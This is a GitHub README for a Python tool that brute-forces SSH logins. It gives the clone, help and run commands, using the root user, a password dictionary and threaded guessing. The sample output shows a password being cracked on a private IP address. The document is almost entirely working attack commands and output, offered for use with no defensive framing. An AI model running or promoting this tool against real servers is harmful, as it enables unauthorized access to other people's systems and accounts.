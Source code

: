 # SSH_Bruteforce
#### 获取脚本

```Bash
git clone https://github.com/HZzz2/SSH_Bruteforce
```

#### 进入目录

```Bash
cd SSH_Bruteforce
```

#### 获取帮助

```Bash
python SSH_Bruteforce.py -h
```

```test
usage: SSH_Bruteforce.py [-h] -H HOST -u USER -f FILE -t THREAD

exmple: python3 SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 10

optional arguments:

  -h, --help            show this help message and exit

  -H HOST, --host HOST  Hostname/IP       要爆破的主机IP

  -u USER, --user USER  Username          SSH用户名

  -f FILE, --file FILE  Password file     密码字典

  -t THREAD, --thread THREAD              线程数
    Thread number
```

#### 执行脚本

```Bash
python SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 10
```
```text
[-] 11 is not correct
[-] 44 is not correct
[-] 88 is not correct
[-] 55 is not correct
[-] 22 is not correct
[-] 77 is not correct
[+] 123456 is correct
SSH PassWord：123456
```



